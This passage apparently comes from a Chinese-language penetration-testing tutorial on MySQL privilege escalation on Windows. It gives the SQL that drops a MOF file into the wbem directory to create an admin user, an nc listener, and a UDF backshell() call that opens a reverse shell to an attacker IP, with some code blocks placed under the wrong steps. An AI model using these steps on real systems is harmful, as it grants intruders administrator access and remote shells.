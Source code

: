 **五、mof 提权**  

MOF 是 windows 系统的一个文件（在 c:/windows/system32/wbem/mof/nullevt.mof）叫做 "托管对象格式" 其作用是每隔五秒就会去监控进程创建和死亡。拥有 mysql 的 root 权限了以后，然后使用 root 权限去执行上传的 mof。隔了一定时间以后这个 mof 就会被执行，这个 mof 当中有一段是 vbs 脚本，里面包含 cmd 的添加管理员用户的命令。  

```
select load\_file('C:/Inetpub/wwwroot/8099/uploads/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

5.1 上传文件 1.mof，使用 sql 语句导出到 nullevt.mof 文件中  

```
nc -l -p 12345
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tj4bSib4L5jehibmevR1G1DrUP2ic49P3icRVGffHEBuPpDWdSacDV5v3OqQ/640?wx_fmt=png)  
5.2 隔一段时间服务器会自动执行此 mof 文件，文件代码内容是创建 admin/admin 用户  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjibCy1ECibK8nZUsGmnzNaQSMwibSIVBo890lEVkZxh5gRUNHfwHhJV2Aw/640?wx_fmt=png)  
5.3 用户创建成功。此时的 admin 用户只是普通用户权限  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tj5tvYCt6XDxBYibNv8e8Knhn8rXJKmT0tn5KFts0sDVOoDH2CmtRVPSw/640?wx_fmt=png)

  
5.4 提升权限  
把上面的命令再执行一遍，mof 文件脚本内容为添加 admin 用户为管理员。等待一段时间后再看 admin 用户，已经成功升级为管理员用户  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjKbDqbv35vhO7xib1lF1fOnLNmp4ylEGBEhHc4aSJ8NOmXy9m6DWunfw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tjg3jdAlTaDFxDxVD02SDoNmu8vs3RqccW35Kg62YZ0y4qeNDfQUBKag/640?wx_fmt=png)  

**六、反连端口提权**
------------

反链端口提权也是利用的 UDF 提权。只是直接 udf 提权遇到 waf 的话会被拦截禁止执行系统函数。使用端口转发过掉防护  

6.1 在 kali 上开启监听的端口

```
select backshell('192.168.1.5',12345)
# 192.168.1.5为kali的IP，12345是要反弹的端口
```

  
6.2 登陆，创建 plugin 目录，导出 udf  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tj3J68yg486DrVmH2Z2HjWcXHZ5Lvhhq9cUHyQwdicA7pyKApSD0KU3icg/640?wx_fmt=png)

  
6.3 创建反弹函数  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tjic1yBU5pPOnjMZ5rTGdZfyfiaS05nkpOX8UvR3ib6fDgaVaguSibtwnDAQ/640?wx_fmt=png)  

  
6.4. 执行反弹  

```
select backshell('192.168.1.5',12345)
# 192.168.1.5为kali的IP，12345是要反弹的端口
```
